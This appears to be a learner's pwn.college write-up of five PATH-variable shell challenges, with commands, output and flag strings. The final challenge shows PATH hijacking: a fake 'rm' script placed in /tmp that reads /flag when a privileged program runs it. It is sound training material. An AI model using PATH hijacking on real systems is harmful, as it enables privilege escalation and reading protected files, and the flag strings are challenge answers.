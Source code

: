    # Challenges
1. The PATH variable
2. Setting PATH
3. Finding commands
4. Adding commands
5. Hijacking commands
   
   
# 1. The PATH variable
>This challenge makes it so that if the program can't find the rm command it gives us the flag. 

## My solve
>**Flag:** `pwn.college{cJN2__KOOkXeKU38nVt-B5hT-QD.QX3YjM1wSM5kjNzEzW}`

Without a PATH, bash cannot find the rm command. So I replaced the shell's path with a useless value.
```bash
hacker@path~the-path-variable:~$ PATH=" "
hacker@path~the-path-variable:~$ rm /challenge/run
bash: rm: command not found
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: command not found
The flag is still there! I might as well give it to you!
pwn.college{wlnGJm_zygIqylP-z5qtPkb7N1q.QX2cDM1wSM5kjNzEzW}
```

## What I learned 
>I learnt that there is a special shell variable called PATH that store a bunch of directory paths in which the shell will search for programs corresponding to commands. 

# 2. Setting PATH
>This challenge is an extension of the previous one where we do something useful with the PATH. 

## My solve
>**Flag:** `pwn.college{MlunExyU9zoATTANsKTItHJbdba.QX1cjM1wSM5kjNzEzW}`

```bash
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{MlunExyU9zoATTANsKTItHJbdba.QX1cjM1wSM5kjNzEzW}
```

## What I learned 
>I learnt that we can set our PATH to whatever path we wish it to be, basically telling our shell to look for look in the given path while resolving plain command names.

# 3. Finding Commands 
>This challenge introduces us to the 'which' command to locate the directories of commands. 

## My solve
>**Flag:** `pwn.college{cdjrRzXIv69zlHPsbIJhmXl-uNd.01NzEzNxwSM5kjNzEzW}`

```bash
hacker@path~finding-commands:~$ which win
/challenge/paths/27930/win
hacker@path~finding-commands:~$ cat /challenge/paths/27930/win
#!/bin/bash

/bin/fold -s <<< "Search for the flag in the same directory in which I am located!"
hacker@path~finding-commands:~$ cat /challenge/paths/27930/flag
pwn.college{cdjrRzXIv69zlHPsbIJhmXl-uNd.01NzEzNxwSM5kjNzEzW}
```

## What I learned 
> I learnt that using which to find which directory our flag is located.


# 4. Adding commands

## My solve
> **Flag:** `pwn.college{A1NIsYzw_RrTWAOoqmctVLKSLTL.QX2cjM1wSM5kjNzEzW}`

```bash
hacker@path~adding-commands:~$ echo '#!/bin/bash' > win
hacker@path~adding-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~adding-commands:~$ echo '/run/dojo/bin/cat /flag' >> win
hacker@path~adding-commands:~$ chmod +x win      
hacker@path~adding-commands:~$ PATH=/home/hacker 
hacker@path~adding-commands:~$ /challenge/run  
Invoking 'win'....
pwn.college{A1NIsYzw_RrTWAOoqmctVLKSLTL.QX2cjM1wSM5kjNzEzW}
hacker@path~adding-commands:~$ ^C

```

## What I learned 
> I learned how to create my own shell scripts and add them to PATH so they can be executed as commands from anywhere.

# 5. Hijacking commands 

## My solve
> **Flag:** `pwn.college{MfJFqx4mLoFVpnnJkxl7kZrLoeU.QX3cjM1wSM5kjNzEzW}`

```bash
hacker@path~hijacking-commands:~$ echo #!/bin/bash > /tmp/rm
hacker@path~hijacking-commands:~$ echo /bin/cat /flag>> /tmp/rm
hacker@path~hijacking-commands:~$ chmod +x /tmp/rm
hacker@path~hijacking-commands:~$ PATH=/tmp
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{MfJFqx4mLoFVpnnJkxl7kZrLoeU.QX3cjM1wSM5kjNzEzW}
```

## What I learned 
> I learned that by creating a fake version of a command (like rm) and placing it in a directory thats earlier in the PATH, I can substitute the actual command


